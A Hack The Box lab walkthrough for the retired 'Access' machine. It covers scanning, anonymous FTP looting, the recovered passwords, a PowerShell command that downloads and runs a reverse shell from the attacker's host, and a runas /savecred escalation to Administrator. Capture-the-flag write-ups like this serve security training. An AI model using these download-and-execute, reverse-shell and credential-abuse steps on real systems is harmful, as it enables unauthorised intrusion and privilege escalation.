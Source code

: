 ```yaml
---
layout: post
title: "Access: Hack The Box Walkthrough"
date: 2019-03-03 04:43:45 +0000
last_modified_at: 2019-03-03 04:46:16 +0000
category: Walkthrough
tags: ["Hack The Box", Access, retired]
comments: true
image:
  feature: access-htb-walkthrough.jpg
  credit: Pexels / Pixabay
  creditlink: https://pixabay.com/en/dark-door-door-handle-light-open-1852985/
---
```


This post documents the complete walkthrough of Access, a retired vulnerable [VM][1] created by [egre55][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Access is a retired vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.98 --rate=1000

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-09 10:37:40 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.98
Discovered open port 23/tcp on 10.10.10.98
Discovered open port 21/tcp on 10.10.10.98
```

`masscan` finds three open ports: `21/tcp`, `23/tcp` and `80/tcp`. Let's do one better with `nmap` scanning these discovered ports.

```
# nmap -n -v -Pn -p21,23,80 -A --reason -oN nmap.txt 10.10.10.98
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
```

Since anonymous FTP is allowed, let's check it out first.

<a class="image-popup">
![ee418d6f.png](/assets/images/posts/access-htb-walkthrough/ee418d6f.png)
</a>

There's a huge file in the `Backups` directory—`backup.mdb`. It appears to be a Microsoft Access Jet Database (MDB) file.

<a class="image-popup">
![0ce46389.png](/assets/images/posts/access-htb-walkthrough/0ce46389.png)
</a>

There's also a big file—`Access Control.zip`, in the `Engineers` directory.

<a class="image-popup">
![ea05e083.png](/assets/images/posts/access-htb-walkthrough/ea05e083.png)
</a>

The archive file is password-protected and it appears to contain a Personal Storage Table (PST) file in it.

### Microsoft Office

I know there are Linux tools to read MDB and PST files but for the sake of convenience, let's use Microsoft Office to open them. I'll use Microsoft Access to read the MDB file. Here's what I found in the `auth_user` table.

<a class="image-popup">
![access.png](/assets/images/posts/access-htb-walkthrough/access.png)
</a>

The password `access4u@security` is the one to extract the PST file from the archive. I'll use Microsoft Outlook to read the PST file. There's only one email in the mailbox.

<a class="image-popup">
![outlook.png](/assets/images/posts/access-htb-walkthrough/outlook.png)
</a>

Another credential (`security:4Cc3ssC0ntr0ller`) in the bag!

### Telnet

Let's give the credential a shot with the Telnet service.

<a class="image-popup">
![16c6c1e1.png](/assets/images/posts/access-htb-walkthrough/16c6c1e1.png)
</a>

Awesome.

The file `user.txt` is at `security`'s desktop.

<a class="image-popup">
![0c8d6cb5.png](/assets/images/posts/access-htb-walkthrough/0c8d6cb5.png)
</a>

### Privilege Escalation

Telnet is painfully slow. Let's run a reverse shell in PowerShell. First of all, let's write a `wget` script in PowerShell. Note that this system is running Windows Server 2008. As such, only PowerShell 2.0 is available. Echo the following lines to `C:\Users\security\Downloads\wget.ps1`.

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile($Args[0],$Args[1])
```

<a class="image-popup">
![7638e0eb.png](/assets/images/posts/access-htb-walkthrough/7638e0eb.png)
</a>

Next, generate a reverse shell in PowerShell with `msfvenom` like so.

<a class="image-popup">
![bfe9f363.png](/assets/images/posts/access-htb-walkthrough/bfe9f363.png)
</a>

Run the following commands in the `telnet` session to transfer `rev.ps1` over.

```
powershell -ExecutionPolicy Bypass -File wget.ps1 http://10.10.12.246/rev.ps1 rev.ps1
```

Now, we can execute the reverse shell with the following command.

```
powershell -ExecutionPolicy Bypass -NoExit -File rev.ps1
```

The `-NoExit` switch indicates that we don't want to exit from the thread. We should get a reverse shell in our `nc` listener.

<a class="image-popup">
![5f59bc8d.png](/assets/images/posts/access-htb-walkthrough/5f59bc8d.png)
</a>

During enumeration of `security`'s account, I ran the `cmdkey` command to list the stored credentials in the box and this is what I saw.

<a class="image-popup">
![d1e7b1c4.png](/assets/images/posts/access-htb-walkthrough/d1e7b1c4.png)
</a>

Perfect. This means that I can use the `/savecred` switch in `runas` to impersonate Administrator without knowing the password! Now, let's claim the prize with the following command:

```
C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"
```

<a class="image-popup">
![6874f21f.png](/assets/images/posts/access-htb-walkthrough/6874f21f.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/156
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/
